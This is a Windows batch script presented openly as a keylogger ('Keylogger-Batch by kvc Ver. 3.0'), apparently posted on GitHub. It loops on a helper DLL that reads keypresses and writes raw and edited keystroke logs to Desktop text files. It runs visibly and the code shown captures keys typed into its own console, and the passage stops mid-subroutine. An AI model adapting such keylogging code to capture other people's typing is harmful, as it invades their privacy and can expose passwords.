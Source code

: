 # mio-key-prov
@echo off
 cls
 CD Files
 mode 85,25
 :: This keylogger is able to log all keys pressed...[A-Z and a-z and 0-9]
 :: and it can almost log all Characters on your Keyboard...including all special keys ...as to Remove limitation of Previous Versions of this program ...
 :: #kvc

 REM As in ver. 1.0 ,we used 'choice.exe or choice.com' for logging Pressed keys on Keyboard ...
 rem and we've used 'mChoice.exe' (written in C) for ver.2.0
 REM same reason for using 'fn.dll' file in this version...i.e. to fulfill our requirment !!


 :: for any info. contact me 'karanveerchouhan@gmail.com' or 'karanveerchouhan.kvc@facebook.com'
 :: Or
 :: you can Leave a comment on my blog too...
 :: visit my Blog 'batchprogrammers.blogspot.in'


 title Keylogger-Batch by kvc Ver. 3.0
 setlocal enabledelayedexpansion
 REm Checking if our fn.dll file is present or not ...
 REM if not exist "fn.dll" (echo. The fn.dll file is not found ...&echo.Please make sure that Both Files are in the Same Folder as you Downloaded them !! && goto end)
 set var=
 if exist "%userprofile%\desktop\keylogger_original.txt" del /q "%userprofile%\desktop\keylogger_original.txt" >nul 2>&1
 if exist "%userprofile%\desktop\keylogger_Modified.txt" del /q "%userprofile%\desktop\keylogger_Modified.txt" >nul 2>&1
 :a
 cls
 if exist "%userprofile%\desktop\keylogger_Modified.txt" (set /p var1=<"%userprofile%\desktop\keylogger_Modified.txt") ELSE set var1=
 set result=
 echo. !var!
 echo. !var1!
 echo.
 echo. Keylogger by Kvc
 echo.&echo.Check the log file of All possible pressed Keys in "Desktop\keylogger_original.txt"
 echo.&echo.Check the log file of intentional pressed Keys in "Desktop\keylogger_Modified.txt"
 echo.
 fn.dll kbd
 call :chk_keyPressed "%errorlevel%" Result
 set var=!var!!result!
 echo.!var!>"%userprofile%\desktop\keylogger_original.txt"
 call :manuplate_it "%result%"
 goto a

 :manuplate_it
 if exist "%userprofile%\desktop\keylogger_Modified.txt" (set /p var1=<"%userprofile%\desktop\keylogger_Modified.txt") ELSE set var1=
 if /i "%~1" == "{BS}" (
 call :getlen "!var1!" size
 if "!size!" leq "1" (Del /q "%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
 ECHO.%var1:~0,-1%>"%userprofile%\desktop\keylogger_Modified.txt"
 goto :eof
 )
 if /i "%~1" == "{TAB}" (ECHO.%var1% >"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
 if /i "%~1" == "{Enter}" (ECHO.>>"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
 if /i "%~1" == "{Space}" (ECHO.%var1% >"%userprofile%\desktop\keylogger_Modified.txt"&&goto :eof)
 set "temp=%~1"
 if /i "!temp:~0,1!" == "{" (goto :eof)
 set var1=!var1!%temp%
 echo.%var1%>"%userprofile%\desktop\keylogger_Modified.txt"
 goto :eof

 :chk_keyPressed
 REM Checking if any Special key is Pressed or Not ...
 if /i "%~1" == "0" set "%~2={NULL}"
 if /i "%~1" == "1" set "%~2={Alt+1}"
 if /i "%~1" == "2" set "%~2={Alt+2}"
 if /i "%~1" == "3" set "%~2={Alt+3}"
